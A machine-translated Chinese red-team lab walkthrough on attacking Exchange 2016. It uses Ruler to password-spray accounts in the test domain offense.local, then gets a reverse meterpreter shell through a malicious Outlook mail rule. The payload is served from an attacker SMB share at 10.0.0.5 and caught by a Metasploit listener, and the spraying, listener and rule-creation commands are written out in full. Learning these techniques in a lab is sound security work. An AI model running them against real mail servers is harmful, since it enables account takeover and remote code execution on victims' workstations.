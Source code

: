 让我们尝试对域中的 Exchange 2016 服务器进行密码喷雾`offense.local`：

```
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

`spotless`上图表明，针对使用弱密码的用户，密码喷射已成功`123456`。

请注意，如果您尝试在自己的实验室中复制此技术，您可能需要更新`/etc/hosts`以指向您的 Exchange 服务器：

## 通过恶意电子邮件规则获取 Shell

如果针对 Exchange 服务器的密码喷射成功并且您已获得有效凭据，您现在可以利用`Ruler`创建恶意电子邮件规则，从而在检查受感染邮箱的主机上获得远程执行代码。

喷射和远程代码执行如何工作的高级概述：

假设您已在用户喷雾期间获得工作凭证`spotless@offense.local`

在 的帮助下`Ruler`，为受感染的帐户（在我们的例子中）创建了恶意邮件规则`spotless@offense.local`。创建的规则将符合以下格式： `if emailSubject contains `**`someTriggerWord`***`start`***`pathToSomeProgram`**

一封主题包含的新电子邮件`someTriggerWord`将发送至`spotless@offense.local`

用户`spotless`登录到他/她的工作站并启动 Outlook 客户端以检查新电子邮件

恶意电子邮件进入并触发恶意邮件规则，进而启动其中指定的程序，该程序`pathToSomeProgram`指向恶意负载，为攻击者提供反向 shell

让我们通过检查是否已创建任何电子邮件规则来验证受损的凭据是否有效：

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

以下内容表明凭据正在运行，并且尚未为此帐户设置邮件规则：

为了进一步进行攻击，我生成了一个反向 meterpreter 负载并将其保存为 Windows 可执行文件`/root/tools/evilm64.exe` 

现在，我们需要创建一个可供受害者主机访问的 SMB 共享，并将其指向我们的有效负载 evilm64.exe 所在的位置：

```
攻击者@kali

smbserver.py tools /root/tools/
```

接下来，我们设置一个metasploit侦听器来捕获传入的反向shell：

```
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```

最后，我们启动标尺并创建恶意电子邮件规则：

```
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

下面显示了作为攻击的一部分创建的实际恶意规则 - 请注意`subject`和`start`属性 - 我们在统治者命令中指定了它们：
